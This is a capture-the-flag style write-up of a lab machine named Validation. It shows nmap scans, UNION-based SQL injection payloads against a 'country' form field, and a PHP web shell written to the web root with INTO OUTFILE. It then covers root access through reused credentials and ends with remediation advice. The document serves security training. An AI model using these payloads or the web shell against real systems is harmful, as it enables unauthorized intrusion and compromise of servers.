








# Validation

___

**Key Findings:**
- Web application SQL injection vulnerability in ``country`` parameter
- File write capability through SQL injection UNION SELECT INTO OUTFILE
- MySQL credentials exposed in configuration files
- Root password reuse enabling direct privilege escalation
- Unrestricted file upload location accessible via web server

---

## Key Learning Objectives

✅ Network Port Scanning & Service Enumeration  
✅ Web Application Reconnaissance & Analysis  
✅ SQL Injection Detection & Exploitation  
✅ UNION-based SQL Injection Techniques  
✅ File Upload via SQL Injection  
✅ Web Shell Deployment & Command Execution  
✅ Configuration File Analysis  
✅ Password Reuse Exploitation  
✅ Direct Root Privilege Escalation

---

## 1. Reconnaissance & Enumeration

Initial reconnaissance was conducted using Nmap to identify open ports and running services on the target system.

```bash
sudo nmap -p- --open -n -Pn -vvv -oG ports 10.10.11.116
sudo nmap -p 22,80,4566,8080 -sCV -oN services 10.10.11.116
```

**Results:**
- Port 22/tcp: SSH service
- Port 80/tcp: Apache HTTP server
- Port 4566/tcp: HTTP service
- Port 8080/tcp: HTTP service

<figure style="text-align: center;">
    
</figure>

## 2. Web Application Assessment

The web application running on port 80 was examined through browser navigation, revealing a registration form with username and country fields.

<figure style="text-align: center;">
    
    
</figure>

## 3. Traffic Interception & Analysis

Request interception was configured using BurpSuite to analyze the registration form submission. The request was sent to Repeater and configured to process cookies in redirections for proper session handling.

<figure style="text-align: center;">
    
    
</figure>

## 4. SQL Injection Discovery

During parameter testing, the `country` field was identified as vulnerable to SQL injection attacks, demonstrating classic injection behavior with database errors.

Initial enumeration queries were run to gather information from the database, but this was only information that we already had access to via the web:

```sql
username=test&country=' UNION SELECT schema_name FROM information_schema.schemata;-- -
username=test&country=' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='registration';-- -
username=test&country=' UNION SELECT column_name FROM information_schema.columns WHERE table_schema='registration' AND table_name='registration';-- -
username=test&country=' UNION SELECT GROUP_CONCAT(username,0x3a,userhash) FROM registration;-- -
```

## 5. File Upload Exploitation

After discovering the usage of PHP language through error messages and analysis of `whatweb` results, a malicious PHP file was uploaded through SQL injection using the INTO OUTFILE clause:

```sql
username=test&country=' UNION SELECT "<?php SYSTEM($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
```

Although the injection returned an error message, the file upload was successful:

<figure style="text-align: center;">
    
</figure>

The uploaded web shell was confirmed functional through browser access:

<figure style="text-align: center;">
    
</figure>

## 6. Initial Access & Configuration Discovery

A reverse shell connection was established through the uploaded web shell, providing initial access to the target system. System reconnaissance revealed MySQL credentials stored in the web application configuration file `/var/www/html/config.php`.

<figure style="text-align: center;">
    
</figure>

## 7. Database Analysis

Connection to the MySQL database was attempted using the discovered credentials:

```bash
mysql -u uhc -p -h localhost registration
```

Database enumeration did not yield additional sensitive information or attack vectors.

## 8. Privilege Escalation

Password reuse was tested using the MySQL credentials discovered in the configuration file. The password was successfully used for direct root privilege escalation:

<figure style="text-align: center;">
    
</figure>

Root access was achieved through password reuse, demonstrating a critical security misconfiguration.

---

## Recommendations

### Immediate Actions

1. **SQL Injection Remediation**
   - Implement parameterized queries for all database interactions
   - Validate and sanitize all user input parameters
   - Apply principle of least privilege to database user accounts

2. **File Upload Security**
   - Disable file write capabilities for web application database users
   - Implement strict file upload validation and restrictions
   - Remove or secure existing uploaded malicious files

3. **Credential Security**
   - Change all default and exposed passwords immediately
   - Remove database credentials from web-accessible configuration files
   - Implement secure credential storage mechanisms

### Long-term Security Improvements

1. **Access Controls**
   - Eliminate password reuse across different service accounts
   - Implement proper user privilege separation
   - Regular review of system user permissions and access rights

2. **Application Security**
   - Deploy web application firewall (WAF) with SQL injection protection
   - Implement secure coding practices and input validation
   - Regular security code reviews and vulnerability assessments

3. **System Hardening**
   - Apply security patches and updates regularly
   - Configure proper file system permissions
   - Implement logging and monitoring for suspicious activities
   - Deploy intrusion detection and prevention systems